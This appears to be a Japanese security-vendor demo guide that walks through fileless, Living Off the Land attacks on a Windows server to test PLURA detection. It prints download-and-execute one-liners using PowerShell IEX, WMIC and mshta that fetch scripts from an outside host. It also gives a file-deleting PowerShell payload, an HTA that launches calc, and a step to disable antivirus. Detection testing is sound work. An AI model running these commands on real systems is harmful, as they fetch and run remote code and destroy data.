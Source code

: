 # LOL攻撃とファイルレス攻撃の紹介

## テスト環境の構築

1. **攻撃サーバー**
   - Webサーバーが構築されている必要があります。

2. **MALSCRIPT**
   - 攻撃サーバーのWebルートディレクトリ内に配置する必要があります（`/var/www/html/`）。
   - 侵入したファイルは、Webリクエストの本文を通じてWebシェル（Web Shell）に変換できます。

3. **MALSCRIPT攻撃対象のパス**
   - 被害サーバーで削除するファイルのパスを入力する必要があります。

4. **被害サーバー**
   - PLURAエージェントがインストールされている必要があります。
   - 削除対象のファイル（例：`C:\Program Files\important-file.txt`）が存在している必要があります。
   - ※指定したパスにファイルが存在しない場合、攻撃の成功可否を確認できません。

5. **運用環境**
   - 被害サーバーはWindowsサーバーで構成する必要があります。
   - Windowsリアルタイム保護やV3などのウイルス対策ソフトは停止してください。

6. **コマンドの実行**
   - 被害サーバーで`cmd`または`PowerShell`を管理者権限で実行し、コマンドを実行してください。

---

## LOL攻撃およびファイルレス攻撃とは

### LOL（Living Off the Land）攻撃
- システムにインストールされている合法的なバイナリやDLLなどのツールを利用して攻撃を行う手法。

### ファイルレス（Fileless）攻撃
- 攻撃ファイルを被害サーバーのディスクに保存せず、メモリ上で直接実行する攻撃技術。

以下は、LOLを活用したファイルレス攻撃の方法です。攻撃を実行した後、PLURAで検知内容を確認できます。

---

## 攻撃デモの方法

侵入したファイルは、Webリクエストの本文を通じてWebシェル（Web Shell）に変換できます。この攻撃技術は、Webサーバーを介して追加の悪意ある行為を実行するために活用される可能性があります。

👉 [詳細はこちら](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **PowerShellを使用してファイルレス攻撃を実行**
- **スクリプト:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<被害サーバーで削除するファイルのパス>'

# 例
Remove-Item 'C:\Program Files\important-file.txt'
```

### コマンド
- `cmd`または`PowerShell`のどちらでも実行可能：
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **攻撃成功時:** 被害サーバーのファイルが削除され、PLURAで検知内容を確認可能。

---

## Windows Management Instrumentation (T1047)
- **WMICを使用してリモートコマンドを実行**
- **スクリプト:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<被害サーバーで削除するファイルのパス>'

# 例
Remove-Item 'C:\Program Files\important-file.txt'
```

### コマンド
- `cmd`で実行：
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **攻撃成功時:** 被害サーバーのファイルが削除され、PLURAで検知内容を確認可能。

---

## Mshta (T1218.005)
- **Mshtaを使用して悪意のあるHTAファイルを実行**
- **スクリプト:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### コマンド
- `cmd`または`PowerShell`のどちらでも実行可能：
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **攻撃成功時:** 被害サーバーで「Malicious HTA」のウィンドウと電卓が起動され、PLURAで検知内容を確認可能。

---

# 注意事項
- **PowerShell, WMIC, Mshta**は、Windowsの強力なスクリプト実行ツールであり、ファイルレス攻撃の実行に頻繁に使用されます。
- 攻撃者は、ディスクにファイルを保存せず、メモリ内で直接実行することで検知回避を試みます。
- 上記のプロセスを通じてPLURAの検知機能とセキュリティログを確認してください。

---

## 攻撃概要（Diagram）

```mermaid
graph TD
    A[攻撃サーバー] -->|MALSCRIPT配信| B[被害サーバー]
    B -->|PowerShell実行| C[ファイル削除実行]
    B -->|WMIC実行| D[コマンド実行]
    B -->|Mshta実行| E[HTAファイル実行]
    C -->|結果確認| F[PLURA検知内容]
    D -->|結果確認| F[PLURA検知内容]
    E -->|結果確認| F[PLURA検知内容]
```
---

## PLURA-XDRによる対応方法のご案内

👉 [詳細はこちら](plura_waf_xdr_detection.md)
